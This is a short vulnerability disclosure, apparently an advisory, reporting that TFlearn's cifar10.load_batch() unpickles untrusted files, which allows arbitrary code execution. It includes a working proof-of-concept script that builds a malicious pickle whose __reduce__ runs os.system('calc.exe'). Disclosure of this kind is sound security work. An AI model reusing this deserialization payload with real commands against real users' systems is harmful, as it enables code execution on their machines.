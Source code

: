 ## :writing_hand: Description

`TFlearn` is a modular and transparent deep learning library built on top of Tensorflow. It was designed to provide a higher-level API to TensorFlow in order to facilitate and speed-up experimentations, while remaining fully transparent and compatible with it. This package is vulnerable to `Arbitrary Code Execution`.

## :bug: Vulnerability

`load_batch()` function is used to load CIFAR 10 dataset for training. Lack of restriction in input allowes attacker-crafted file to get unpickled which causes code execution.

## :male_detective: Proof of Concept

#### Installation
```bash
pip install tensorflow
pip install tflearn
```

#### Run exploit.py
```python
#!/usr/bin/env python3

import pickle
import os
from tflearn.datasets import cifar10

class EvilPickle(object):
    def __reduce__(self):
        return (os.system, ('calc.exe', ))

payload = pickle.dumps(EvilPickle())

with open('payload', 'wb') as f:
    f.write(payload)

cifar10.load_batch('payload')
```
